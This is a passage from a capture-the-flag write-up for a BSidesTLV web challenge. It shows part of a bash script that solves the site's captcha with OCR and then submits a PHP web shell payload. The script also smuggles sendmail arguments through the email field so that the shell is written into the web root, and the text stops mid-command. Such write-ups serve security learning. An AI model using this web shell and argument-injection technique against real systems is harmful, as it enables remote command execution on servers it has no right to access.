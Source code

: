 ![38f082cd.png](/assets/images/posts/bsidestlv-web/4199581e.png)

To that end, I wrote a `bash` script, using `gocr`, `pngtopnm` and `curl` as the main drivers for the exploit.

<div class="filename"><span>contactme.sh</span></div>

```bash
#!/bin/bash

CHALLENGE=http://challenges.bsidestlv.com:8080
TARGETURL="$CHALLENGE/index.php"
CAPTCHAURL="$CHALLENGE/captcha.php"

# Session
curl -s \
     -c cookie \
     -o /dev/null \
     $TARGETURL

# Captcha
CAPTCHA=$(curl -s -b cookie $CAPTCHAURL \
          | pngtopnm \
          | gocr -i -)

DOCROOT=/var/www/html
FILENAME=$(sed '$!d' cookie | awk '{ print $NF }' | cut -c3-14).php
LOCATION=$DOCROOT/cache/$FILENAME

# Exploit
STATUS=$(curl -s \
              -b cookie \
              -o /dev/null \
              -w %{http_code} \
              --data-urlencode 'fullname=<?php echo shell_exec($_GET["cmd"]); ?>' \
              --data-urlencode "email_address=\"badguy\\\" -oQ/tmp/ -X$LOCATION blah\"@badguy.com" \
```